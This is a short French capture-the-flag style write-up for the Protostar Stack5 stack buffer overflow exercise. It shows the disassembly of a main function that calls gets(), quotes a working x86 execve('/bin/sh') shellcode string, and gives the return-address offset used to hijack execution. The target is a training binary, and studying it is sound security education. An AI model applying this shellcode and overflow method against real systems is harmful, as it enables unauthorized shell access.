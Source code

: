 # Stack5

[https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/](https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/)

	0x080483c4 <main+0>:	push   ebp
	0x080483c5 <main+1>:	mov    ebp,esp
	0x080483c7 <main+3>:	and    esp,0xfffffff0
	0x080483ca <main+6>:	sub    esp,0x50
	0x080483cd <main+9>:	lea    eax,[esp+0x10]
	0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
	0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
	0x080483d9 <main+21>:	leave  
	0x080483da <main+22>:	ret  

Représentation:

![](stack1.png)

![](stack2.png)

![](stack3.png)

![](stack4.png)

![](stack5.png)

![](stack6.png)

Sur [ce site](http://shell-storm.org/shellcode/files/shellcode-827.php)
, on trouve un exploit:

	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

Il faut:
* injecter le code de l'exploit dans le processus.
* modifier la case mémoire qui contient l'adresse de retour de la fonction `main()` afin. Il faut y injecter l'adresse du code qui contient l'exploit.

La case mémoire qui contient l'adresse de retour de la fonction `main()` se situe à `x + 0x44` octets de la variable `buffer`.


